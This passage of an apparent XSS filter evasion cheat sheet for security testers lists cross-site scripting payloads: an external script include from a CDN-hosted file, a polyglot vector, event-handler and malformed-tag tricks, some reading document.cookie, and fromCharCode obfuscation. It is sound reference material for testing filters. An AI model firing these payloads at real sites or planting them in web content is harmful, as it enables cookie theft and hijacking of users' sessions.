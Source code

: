 This cheat sheet demonstrates that input filtering is an incomplete defense for XSS by supplying testers with a series of XSS attacks that can bypass certain XSS defensive filters.
#### Basic XSS Test Without Filter Evasion¶
This attack, which uses normal XSS JavaScript injection, serves as a baseline for the cheat sheet (the quotes are not required in any modern browser so they are omitted here):
- <SCRIPT SRC=https://cdn.jsdelivr.net/gh/Moksh45/host-xss.rocks/index.js></SCRIPT>

#### XSS Locator (Polyglot)¶
This test delivers a 'polyglot test XSS payload' that executes in multiple contexts, including HTML, script strings, JavaScript, and URLs:
javascript:/*--></title></style></textarea></script></xmp>
<svg/onload='+/"`/+/onmouseover=1/+/[*/[]/+alert(42);//'>

(Based on this [tweet](https://twitter.com/garethheyes/status/997466212190781445) by [Gareth Heyes](https://twitter.com/garethheyes)).
#### Malformed A Tags¶
This test skips the [href](https://developer.mozilla.org/en-US/docs/Web/HTML/Element/a#href) attribute to demonstrate an XSS attack using event handlers:
\<a onmouseover="alert(document.cookie)"\>xxs link\</a\>

Chrome automatically inserts missing quotes for you. If you encounter issues, try omitting them and Chrome will correctly place the missing quotes in URLs or scripts for you:
\<a onmouseover=alert(document.cookie)\>xxs link\</a\>

(Submitted by David Cross, Verified on Chrome)
#### Malformed IMG Tags¶
This XSS method uses the relaxed rendering engine to create an XSS vector within an IMG tag (which needs to be encapsulated within quotes). We believe this approach was originally meant to correct sloppy coding and it would also make it significantly more difficult to correctly parse HTML tags:
<IMG """><SCRIPT>alert("XSS")</SCRIPT>"\>

(Originally found by Begeek, but it was cleaned up and shortened to work in all browsers)
#### fromCharCode¶
If the system does not allow quotes of any kind, you can eval() a fromCharCode in JavaScript to create any XSS vector you need:
<a href="javascript:alert(String.fromCharCode(88,83,83))">Click Me!</a>

#### Default SRC Tag to Get Past Filters that Check SRC Domain¶
This attack will bypass most SRC domain filters. Inserting JavaScript in an event handler also applies to any HTML tag type injection using elements like Form, Iframe, Input, Embed, etc. This also allows the substitution of any relevant event for the tag type, such as onblur or onclick, providing extensive variations of the injections listed here:
<IMG SRC=# onmouseover="alert('xxs')">

(Submitted by David Cross and edited by Abdullah Hussam)
#### Default SRC Tag by Leaving it Empty¶
<IMG SRC= onmouseover="alert('xxs')">

#### Default SRC Tag by Leaving it out Entirely¶
<IMG onmouseover="alert('xxs')">
